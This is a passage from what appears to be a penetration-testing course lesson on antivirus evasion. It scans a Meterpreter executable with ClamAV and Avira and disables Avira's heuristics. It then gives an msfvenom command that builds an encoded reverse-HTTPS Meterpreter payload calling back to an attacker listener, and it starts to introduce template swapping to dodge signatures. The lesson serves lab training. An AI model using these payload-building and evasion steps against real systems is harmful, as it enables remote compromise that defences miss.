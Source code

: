 We'll copy it to our Windows 10 victim machine and scan it with ClamAV as shown in Listing 20.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\met64.exe
C:\Tools\met64.exe: OK
...
```

> Listing 20 - Scanning 64-bit executable with ClamAV

Interesting. ClamAV does not flag this as malicious.

Since this is a major victory, let's push our luck and scan the file with Avira as well. Since we're only interested in signature detection at this point, we'll execute Avira desktop, navigate to _Antivirus_ > _Real-Time Protection_ and verify that real-time protection is turned off.

Next, we'll click on the configuration menu at the upper-right corner as shown in Figure 3.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/8904d9cdbf6eccd61545e8eb16d65bca-avi_msf_heuri1.png" alt="Figure 3: Avira antivirus configuration menu"><figcaption><p>Figure 3: Avira antivirus configuration menu</p></figcaption></figure>

In the configuration window, we'll expand the _System Scanner_ branch, navigate to _Scan_ > _Heuristics_, then de-select the box labelled "Enable AHeAD" (Figure 4).

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/cff6a5870baabd6cc3e6ca68c107bb1b-avi_msf_heuri2.png" alt="Figure 4: Disabling heuristics in Avira"><figcaption><p>Figure 4: Disabling heuristics in Avira</p></figcaption></figure>

With the heuristics detection disabled, we'll right-click the met64.exe executable and execute an on-demand scan with Avira. As shown in Figure 5, Avira detects the 64-bit shellcode.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/6db4663249eebd62c066db289709e424-avi_msf_avira64bit.png" alt="Figure 5: Avira detecting 64-bit Meterpreter executable"><figcaption><p>Figure 5: Avira detecting 64-bit Meterpreter executable</p></figcaption></figure>

Next, let's use an encoder in an attempt to evade Avira. Since this is a 64-bit executable, we cannot use the 32-bit shikata\_ga\_nai encoder. Instead, we'll use the _x64/zutto\_dekiru_ encoder,[2](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_270-2) which borrows many techniques from shikata\_ga\_nai.

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -e x64/zutto_dekiru -f exe -o /var/www/html/met64_zutto.exe
...
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 840 (iteration=0)
x64/zutto_dekiru chosen with final size 840
Payload size: 840 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64_zutto.exe
```

> Listing 21 - Encoding with x64/zutto\_dekiru

However, Avira flags this as well, again detecting the signature of the decoder or of the _template_. When msfvenom generates an executable, it inserts the shellcode into a valid executable. This template executable is static and likely has signatures attached to it as well.

We could use the -x option to specify a different template. To do this, we'll copy the notepad application located at C:\Windows\System32\notepad.exe to Kali and use it as a template as follows:
